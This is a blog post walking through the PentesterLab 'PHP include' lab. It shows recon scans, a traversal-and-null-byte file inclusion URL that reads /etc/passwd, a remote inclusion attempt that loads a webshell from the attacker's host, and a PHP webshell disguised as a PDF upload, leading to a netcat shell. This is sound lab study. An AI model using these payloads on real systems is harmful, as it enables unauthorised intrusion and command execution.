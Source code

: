 ```yaml
---
layout: post
title: "pentesterlab-PHP-include"
date: 2016-06-14 12:52:00 -0500
comments: true
categories: [pentesterlab, php, LFI]
---
```


###Tools:

* netdiscover
* Nmap
* Nikto
* Wfuzz
* Netcat

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/pentesterlab/phpinclude/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.188 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.184 -p-`


{% img  /images/blog/pentesterlab/phpinclude/Selection_002.png   [title manually exploit [alt text]] %}


Only port 80 is opening.

Use Wfuzz to scan


`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.188/FUZZ 2>/dev/null`

{% img  /images/blog/pentesterlab/phpinclude/Selection_003.png   [title manually exploit [alt text]] %}

use nikto to scan

`nikto -h 192.168.79.188`

looks like there is a php include vulnerability

{% img  /images/blog/pentesterlab/phpinclude/Selection_004.png   [title manually exploit [alt text]] %}

Lets confirm it:

`http://192.168.79.188/index.php?page=fgfgfgf`


{% img  /images/blog/pentesterlab/phpinclude/Selection_005.png   [title manually exploit [alt text]] %}

`http://192.168.79.188/index.php?page=../../../../../../../../../../etc/passwd%00`

(the reason why add %00 after /etc/passwd is php code will ad a suffix .php, so that we have to add a Null byte to get rid of it)

{% img  /images/blog/pentesterlab/phpinclude/Selection_006.png   [title manually exploit [alt text]] %}


I tried to exploit remote file inclide:

`http://192.168.79.188/index.php?page=http://192.168.79.173/webshell.txt&cmd=ifconfig`

Doesn't work. 


Exam the webpage, I find that I can upload pdf file to the server. I tried just rename webshell.txt to webshell.pdf and the server doesn't accpet it. I guess the server will valid the pdf file format. So I create a craft pdf file:

```php webshell.pdf
%PDF-1.4
<?php
  system($_GET["cmd"]);
?>
```

Upload it. Works.

{% img  /images/blog/pentesterlab/phpinclude/Selection_007.png   [title manually exploit [alt text]] %}

Now try to visit after log in.

Try to verify the webshell:


{% img  /images/blog/pentesterlab/phpinclude/Selection_008.png   [title manually exploit [alt text]] %}

looks good

set up netcat listener on my kali and run the command on server:

{% img  /images/blog/pentesterlab/phpinclude/Selection_009.png   [title manually exploit [alt text]] %}


and get the shell:

{% img  /images/blog/pentesterlab/phpinclude/Selection_010.png   [title manually exploit [alt text]] %}



DONE



